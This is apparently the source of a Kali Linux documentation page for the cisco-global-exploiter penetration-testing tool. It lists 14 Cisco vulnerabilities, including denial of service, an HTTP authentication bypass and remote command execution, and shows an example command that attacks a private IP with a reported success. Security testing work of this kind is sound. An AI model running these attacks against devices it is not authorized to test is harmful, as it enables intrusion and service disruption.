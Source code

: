 ```yaml
---
Title: cisco-global-exploiter
Homepage: http://www.blackangels.it
Repository: https://gitlab.com/kalilinux/packages/cisco-global-exploiter
Architectures: all
Version: 13-1kali4
Metapackages: kali-linux-everything kali-linux-large kali-tools-vulnerability 
Icon: /images/kali-tools-icon-missing.svg
PackagesInfo: |
 ### cisco-global-exploiter
 
  Cisco Global Exploiter (CGE), is an advanced, simple
  and fast security testing tool.
 
 **Installed size:** `37 KB`  
 **How to install:** `sudo apt install cisco-global-exploiter`  
 
 {{< spoiler "Dependencies:" >}}
 * perl
 {{< /spoiler >}}
 
 ##### cge.pl
 
 
 ```
 root@kali:~# cge.pl -h
 
 Usage :
 perl cge.pl <target> <vulnerability number>
 
 Vulnerabilities list :
 [1] - Cisco 677/678 Telnet Buffer Overflow Vulnerability
 [2] - Cisco IOS Router Denial of Service Vulnerability
 [3] - Cisco IOS HTTP Auth Vulnerability
 [4] - Cisco IOS HTTP Configuration Arbitrary Administrative Access Vulnerability
 [5] - Cisco Catalyst SSH Protocol Mismatch Denial of Service Vulnerability
 [6] - Cisco 675 Web Administration Denial of Service Vulnerability
 [7] - Cisco Catalyst 3500 XL Remote Arbitrary Command Vulnerability
 [8] - Cisco IOS Software HTTP Request Denial of Service Vulnerability
 [9] - Cisco 514 UDP Flood Denial of Service Vulnerability
 [10] - CiscoSecure ACS for Windows NT Server Denial of Service Vulnerability
 [11] - Cisco Catalyst Memory Leak Vulnerability
 [12] - Cisco CatOS CiscoView HTTP Server Buffer Overflow Vulnerability
 [13] - 0 Encoding IDS Bypass Vulnerability (UTF)
 [14] - Cisco IOS HTTP Denial of Service Vulnerability
 ```
 
 - - -
 
---
```

{{% hidden-comment "<!--Do not edit anything above this line-->" %}}

## cisco-global-exploiter Usage Example

Attack the target host (`192.168.99.230`) using the Cisco IOS HTTP Auth Vulnerability (`3`):

```
root@kali:~# cge.pl 192.168.99.230 3

Vulnerability successful exploited with [http://192.168.99.230/level/17/exec/....] ...
```
